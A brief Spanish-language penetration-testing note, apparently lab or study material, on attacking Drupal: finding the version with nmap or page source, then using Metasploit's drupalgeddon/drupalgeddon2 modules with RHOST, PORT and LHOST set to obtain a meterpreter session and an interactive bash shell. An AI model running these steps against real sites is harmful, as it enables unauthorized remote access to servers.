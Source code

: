 Drupal revisar si con el nmap conseguimos la versión de drupal

en la pantalla de inicio viendo el código fuente podemos encontrar la versión. 

atacamos con metasploit msfconsole



search drupal {version}

usaremos el exploit drupalgeddon o drupalgeddon2
show options
RHOST
PORT
LHOST
en RHOST ponemos toda la ruta donde esta el drupal
RUN

meterpreter > shell

bash -i

